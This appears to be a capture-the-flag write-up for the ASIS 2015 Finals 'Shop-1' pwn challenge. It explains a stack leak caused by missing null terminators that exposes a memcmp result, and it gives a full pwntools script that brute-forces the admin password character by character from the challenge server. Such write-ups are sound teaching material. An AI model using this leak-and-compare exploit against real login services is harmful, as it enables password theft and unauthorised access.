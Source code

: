 ```yaml
---
layout: post
title: ASIS 2015 Finals: Shop-1
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The main vulnerability for getting the admin password is that if you send in a maximum length username (32 bytes) and password (64 bytes) then no string terminating null character was written. Also, usernames and passwords were checked with memcpy and exact length instead of strcpy.

As the program prints out the logged in username this leads to leaking out the next value in the stack: the memcmp result of the admin password.

{% highlight c %}
  char username[32]; // [sp+20h] [bp-70h]@3
  char password[64]; // [sp+40h] [bp-50h]@3
  int memcmpResult; // [sp+80h] [bp-10h]@5
{% endhighlight %}

So the attack was basically: 
 - try to login with admin and the password you leaked so far (empty at first) plus "~" (0x7e)
    - although this will lead to failed login, the memcpy result won't be cleared
    - I am using 0x7e because it is the last readable ASCII character and comparison with password will give smaller results
 - try to login with username "guest" + "A"*(32-5) and password "guest" + "A"*(64-5)
 - read the leaked value, this will be the positive difference between "~" and the next character from the password
 - logout and try again, until you found the password and can login as admin :)
 
The admin password (=flag): ASIS{304b0f16eb430391c6c86ab0f3294211}

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = ""
foundPass = False

r = remote('185.106.120.220', 1337)

def getResult(currPass):
    global foundPass
    r.recvuntil("Username:")
    password = "guest"+"A"*(64-5)
    r.send("admin\n"+currPass+"\nguest"+"A"*(32-5)+"\n"+password+"\n8\n")
    if not "Unknown username" in r.recvline():
        foundPass = True
        return "x"

    r.recvuntil("in as guest")
    result = r.recvline()[:-1].split(password)[1]
    return result

chars = [chr(x) for x in xrange(32,127)]
print "Chars = %s" % chars

for i in xrange(45):
    result = getResult(adminPass + "~")
    if foundPass:
        break
    nextChar = chr(ord("~") - ord(result[0]))
    adminPass += nextChar
    print "found char = %s => %s (calc)" % (nextChar, adminPass)

if foundPass:
    print "Admin password = %s" % adminPass
else:
    print "Admin password not found :("
{% endhighlight %}